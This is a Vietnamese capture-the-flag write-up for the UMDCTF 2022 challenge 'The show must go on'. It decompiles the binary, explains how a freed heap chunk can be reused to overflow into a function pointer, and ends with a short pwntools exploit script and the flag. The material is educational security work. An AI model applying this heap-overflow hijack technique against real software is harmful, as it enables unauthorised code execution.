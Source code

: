 # The show must go on UMDCTF 2022 

## Description

Đầu tiên ta kiểm tra qua thông tin của file

```Terminal
➜  checksec theshow
[*] '/home/hibana/Downloads/theshow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
➜  file theshow
theshow: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=9892240bcbf253bbd60b8484cf029b3fe7864338, not stripped
```

Sau đó chạy thử file

```Terminal
➜  ./theshow
Welcome to the comedy club!
We only have the best comedians here!Please help us set up for your act
What is the name of your act?
ba
Your act code is: Main_Act_Is_The_Best
How long do you want the show description to be?
12
Describe the show for us:
idk
What would you like to do?
+-------------+
|   Actions   |
|-------------|
| Perform Act |
| Switch Act  |
| End Show    |
+-------------|
Action:
```

Đầu tiên sẽ nhập một vài thông tin sau đó hiện ra 1 menu với 3 options: `Perform Act`, `Switch Act`, `End Show`
Với option 1 `Perform Act` thì sẽ tell joke sau dó kết thúc chương trình. Option2 `Switch Act` thì sau khi nhập một vài thông tin thì mình luôn bị trả về lỗi segmentation fault. Option3 thì kết thúc chương trình. Bây giờ cùng ngó qua source code để xem ta có thể khai thác được gì. Mình thấy có 1 số hàm như sau:

![function](https://raw.githubusercontent.com/hibana/UMDCTF-2020/master/theshow/function.png) 

Ta thấy có hàm `win()` và `tellAjoke()` mình đoán để có flag thì cần phải làm `Perform Act` chạy hàm `win()` thay vì `tellAjoke()`
cùng xem chi tiết các hàm khác nhé:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rdx
  int result; // eax

  setbuf(stdout, 0LL, envp);
  setbuf(stdin, 0LL, v3);
  setbuf(stderr, 0LL, v4);
  setup();
  result = whatToDo();
  if ( result )
    return puts("The show is over, goodbye!");
  return result;
}
```

```C
__int64 setup()
{
  __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rax
  int v3; // r8d
  int v4; // r9d
  int v5; // edx
  int v6; // ecx
  int v7; // r8d
  int v8; // r9d
  int v9; // edx
  int v10; // ecx
  int v11; // r8d
  int v12; // r9d
  int v13; // edx
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  int v17; // edx
  int v18; // ecx
  int v19; // r8d
  int v20; // r9d
  int v22; // [rsp+4h] [rbp-3Ch] BYREF
  __int64 v23; // [rsp+8h] [rbp-38h]
  char v24[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v25; // [rsp+38h] [rbp-8h]

  v25 = __readfsqword(0x28u);
  v22 = 0;
  message1 = malloc_set(80LL);
  message2 = malloc_set(96LL);
  message3 = malloc_set(128LL);
  v0 = message1;
  *(_QWORD *)message1 = 0x20656D6F636C6557LL;
  *(_QWORD *)(v0 + 8) = 0x6320656874206F74LL;
  *(_QWORD *)(v0 + 16) = 0x6C63207964656D6FLL;
  *(_DWORD *)(v0 + 24) = 169960053;
  v1 = message2;
  *(_QWORD *)message2 = 0x20796C6E6F206557LL;
  qmemcpy((void *)(v1 + 8), "have the best comedians here!", 29);
  v2 = message3;
  *(_QWORD *)message3 = 0x6820657361656C50LL;
  strcpy((char *)(v2 + 8), "elp us set up for your act\n");
  printf((unsigned int)"%s", message1, 1965061221, 1870209138, v3, v4);
  printf((unsigned int)"%s", message2, v5, v6, v7, v8);
  printf((unsigned int)"%s", message3, v9, v10, v11, v12);
  puts("What is the name of your act?");
  _isoc99_scanf((unsigned int)"%s", (unsigned int)v24, v13, v14, v15, v16);
  mainAct = malloc_set(104LL);
  j_strncpy_ifunc(mainAct, v24, 32LL);
  v23 = fcrypt("Main_Act_Is_The_Best", salt);
  j_strncpy_ifunc(mainAct + 32, v23, 64LL);
  puts("Your act code is: Main_Act_Is_The_Best");
  *(_QWORD *)(mainAct + 96) = tellAJoke;
  currentAct = mainAct;
  free(message1);
  free(message3);
  puts("How long do you want the show description to be?");
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v22, v17, v18, v19, v20);
  showDescription = malloc_set(v22 + 8);
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription, 500LL, stdin);
  actList = mainAct;
  return 0LL;
}
```

```C
__int64 __fastcall whatToDo(__int64 a1, int a2)
{
  int v2; // edx
  int v3; // ecx
  int v4; // r8d
  int v5; // r9d
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v11; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v12; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v13; // [rsp+8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  puts("What would you like to do?");
  v11 = 0;
  v12 = 0;
  puts("+-------------+");
  puts("|   Actions   |");
  puts("|-------------|");
  puts("| Perform Act |");
  puts("| Switch Act  |");
  puts("| End Show    |");
  puts("+-------------|");
  printf((unsigned int)"Action: ", a2, v2, v3, v4, v5);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v11, v6, v7, v8, v9);
  switch ( v11 )
  {
    case 2:
      switchAct();
      puts("I think the current act switched switched. It might appear when we start up again...");
      break;
    case 3:
      return 1;
    case 1:
      (*(void (**)(void))(currentAct + 96))();
      break;
  }
  return v12;
}
```

OKE. Code khá là dài, mấy hàm ko quan trọng mình ko cho vào đây. Sau một hồi lâu ngồi đọc code, mình phát hiện chương trình `free(message3)` ngay sau đó `malloc_set(v22 + 8)` với v22 được người dùng nhập vào. Vì cơ chế free nên nếu ta nhập vào sao cho v22+8 = 128(size của mssage3) thì showDescription sẽ được trả về đúng địa chỉ của message3. Message3 nằm ngay trước `mainActor`. Thông qua việc gọi hàm `fgets(showDescription, 500LL, stdin);`, ta ghì đè từ showDescription đến `mainActor+96` ghì đè địa chỉ của hàm win vào. Khi đó, người dùng chọn `Perform Act` thì hàm `(*(void (**)(void))(currentAct + 96))()` sẽ được gọi. Ta sẽ có flag.

## Exploit code

```python
#!python3
from pwn import *
#HOST 0.cloud.chals.io PORT 30138
p = remote('0.cloud.chals.io', 30138) #connect to server
print(p.recvuntil(b'act?')) # What is the name of your act?
p.sendline(b'quangba')
print(p.recvuntil(b'be?')) #How long do you want the show description to be? 120 + 8 = 128 = message3 size
p.sendline(b'120')
print(p.recvuntil(b'us:')) #Describe the show for us:
payload = b'a'*(128+16+96) #128 kí tự cho showDescription, 16 kí tự cho metadata của chunk mainActor, 96 kí tự offset
payload += p64(0x400BED)    #địa chỉ hàm win()
p.sendline(payload)
p.interactive()
```

## FLAG: UMDCTF{b1ns_cAN_B3_5up3r_f4st}
